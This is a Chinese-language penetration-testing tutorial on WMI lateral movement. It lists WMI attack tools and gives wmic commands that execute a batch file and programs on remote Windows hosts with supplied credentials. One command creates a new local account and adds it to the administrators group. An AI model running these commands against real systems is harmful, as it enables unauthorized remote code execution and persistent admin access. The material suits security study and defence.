 常见的WMI攻击工具：

- `PTH-WMIS (最早wmi攻击的工具，单条命令执行，无回显，需要pth-smbget配合读取结果)`
- `impackets wmiexec(Linux跨window经常用)`
- `wmiexec.vbs (国人制造 为了回显会写文件)`
- `Invoke-WmiCommand&Invoke-PowerShellWmi`

```bash
#在远程系统上执行 bat 脚本
wmic /node:192.168.17.138 /user:test /password:!@#123QWE process call create c:\programdata\test.bat

###在远程系统上执行单条命令
wmic /node:192.168.17.138 /user:test /password:!@#123QWE process call create "cmd.exe /c net user test1 !@#123QWE /add && net localgroup administrators test1 /add

#在远程系统上运行exe文件
C:\Users\DC>wmic /node:192.168.200.20 /user:web\administrator /password:Web12345
 process call create "cmd.exe /c calc.exe"
```

**工具说明:**

1.  需要远程系统启动 Windows Management Instrumentation 服务，开放135端口
2.  远程系统的本地安全策略的“网络访问: 本地帐户的共享和安全模式”应设为“经典-本地用户以自己的身份验证”
3.  wmic 会以管理员权限在远程系统上执行命令
4.  防火墙开启将无法连接
5.  如果报错 "Invalid Global Switch" ，用双引号把包含`-`的结点括起来即可正常执行。

![](/img/hack/远程代码执行/post/92aa573b-2e90-4248-88c5-dd23cb48ae5b.png)

#### wmiexec
WMI 可以远程执行命令，大牛使用VBS脚本调用WMI来模拟 psexec 的功能，于是乎 WMIEXEC 就诞生了。基本上psexec 能用的地方，这个脚本也能够使用。
